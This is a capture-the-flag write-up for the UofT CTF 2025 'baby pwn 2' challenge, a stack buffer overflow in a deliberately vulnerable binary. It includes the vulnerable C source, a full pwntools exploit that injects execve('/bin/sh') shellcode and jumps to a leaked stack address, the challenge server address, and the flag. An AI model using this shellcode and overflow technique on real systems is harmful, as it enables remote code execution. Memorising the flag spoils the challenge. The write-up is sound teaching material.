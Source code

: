 ```yaml
---
layout: writeup
category: UofT-CTF-2025
chall_description: 
points: 100
solves: 264
tags: pwn buffer-overflow ret2win
date: 2025-1-12
comments: false
---
```


Here's a baby pwn challenge for you to try out. Can you get the flag?

nc 34.162.142.123 5000

Author: atom

[baby-pwn-2.zip](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2025/baby-pwn-2.zip)  

---

We're provided the binary along with the source file:  

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function()
{
    char buffer[64];
    printf("Stack address leak: %p\n", buffer);
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Welcome to the baby pwn 2 challenge!\n");
    vulnerable_function();
    printf("Goodbye!\n");
    return 0;
}
```

`checksec` output:  

```yaml
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

`NX` is disabled --> implies shellcode is likely the solution.  

We also have a simple buffer overflow of 128 bytes read into the 64 byte `buffer`. And we're given a stack leak of the address of `buffer`.  

Basically, we can just write shellcode into `buffer`, and then overwrite saved RIP with the address of `buffer` that was leaked by the program. Then, the program will jump to our shellcode instructions in `buffer`, and run whatever we want!  

For the shellcode, we can create a pretty simple one to call `system("/bin/sh\x00")` (null-terminated because that's how C interprets strings!).  

Here's the exploit:  

```py
#-----------RIP OFFSET------------#
# send(cyclic(128, n=8), b': ')
# p.interactive()
# exit()

#--------------LEAK---------------#
p.recvuntil(b': ')
buffer = int(p.recvline(), 16)

#--------------WIN----------------#
offset = cyclic_find('jaaaaaaa', n=8)
payload = bytes(asm('''
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, SYS_execve
syscall
'''))
payload = payload.ljust(offset, b'\x00')
payload += p64(buffer)
send(payload, b': ')
```

And we get the flag!  

    uoftctf{sh3llc0d3_1s_pr3tty_c00l}

Full script:  

```py
# Useful references:
# https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf

from pwn import *
import sys
import os

#---------HELPER FUNCTIONS---------#

def get_leak(before: bytes, end: bytes=b'\n') -> int:
    p.recvuntil(before)
    return int(p.recvuntil(end).decode('ascii')[:-1], 16)

def send(payload: bytes, before: bytes=b'', line: bool=True) -> int:
    payload = payload + (b'\n' if line else b'')
    if before == b'':
        p.send(payload)
    else:
        p.sendafter(before, payload)


#---------SETUP---------#

args = list(map(lambda s: s.upper(), sys.argv))
_libcs = list(filter(lambda s: 'libc.so.6' in s, os.listdir()))
_lds = list(filter(lambda s: 'ld' == s[:2], os.listdir()))

elf = ELF("baby-pwn-2") #------TODO------#
libc = _libcs[0] if len(_libcs) else elf.libc
ld = _lds[0] if len(_lds) else None

context.binary = elf
context.log_level = "DEBUG"

gdbscript = '''
# 
'''

if 'REMOTE' in args:
    p = remote('34.162.119.16', 5000) #------TODO------#
else:
    p = process([elf.path])
    gdb.attach(p, gdbscript=gdbscript)


###################################
#==========BEGIN EXPLOIT==========#
###################################

#-----------RIP OFFSET------------#
# send(cyclic(128, n=8), b': ')
# p.interactive()
# exit()

#--------------LEAK---------------#
p.recvuntil(b': ')
buffer = int(p.recvline(), 16)

#--------------WIN----------------#
offset = cyclic_find('jaaaaaaa', n=8)
payload = bytes(asm('''
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, SYS_execve
syscall
'''))
payload = payload.ljust(offset, b'\x00')
payload += p64(buffer)
send(payload, b': ')

###################################
#===========END EXPLOIT===========#
###################################

p.interactive()
p.close()

# uoftctf{sh3llc0d3_1s_pr3tty_c00l}
```